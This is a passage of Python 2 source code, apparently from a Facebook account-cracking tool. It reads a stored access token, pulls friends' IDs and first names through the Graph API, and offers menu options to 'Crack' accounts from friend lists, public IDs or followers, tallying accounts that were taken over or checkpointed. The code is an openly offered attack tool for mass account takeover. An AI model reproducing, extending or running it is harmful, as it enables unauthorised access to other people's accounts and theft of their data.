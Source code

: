 		                                        
									
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print("\033[1;97m--------------------------------------------------")
	print ('\033[1;97m[+]\033[1;97m Process Has Been Completed')
	print('\033[1;97m[+]\033[1;97m Total CP/OK:\033[0;97m  '+str(len(cps))+'/\033[1;92m '+str(len(oks)))
	print("\033[1;97m--------------------------------------------------")
	raw_input("Press Enter To Main Menu Back")
	menu()
	
def indiaa():
	global token
	os.system("clear")
	try:
		token=open(".login.txt","r").read()
	except IOError:
		print("[!] Error 404 . Token Not Found")
		os.system("rm -rf .login.txt")
		time.sleep(1)
		login()
	os.system("clear")
	print logo
	os.system("python3 .loading.md")
        os.system('clear')
        print logo
	print("\t   India Menu")
	print("\033[1;97m--------------------------------------------------")
	print ("\033[1;97m[1]\033[1;91m-⋄-\033[1;93mCrack From Friend List")
	print ("\033[1;97m[2]\033[1;91m-⋄-\033[1;93mCrack From Public ID")
	print ("\033[1;97m[3]\033[1;91m-⋄-\033[1;93mCrack From Followers")
	print ('\033[1;97m[0]\033[1;91m-⋄-\033[1;93mBack')
	print("\033[1;97m--------------------------------------------------")
	indiaa2()
def indiaa2():
	select = raw_input("\n╰─➣ ")
	id=[]
	oks=[]
	cps=[]
	if select=="1":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Frienlist\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for s in z["data"]:
			uid=s['id']
			na=s['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	elif select =="2":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Public ID\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		idt = raw_input("\033[1;97m[+]\033[1;93m Input ID/Username :\033[1;96m ")
		print("\033[1;97m--------------------------------------------------")
		os.system("clear")
		print logo
		try: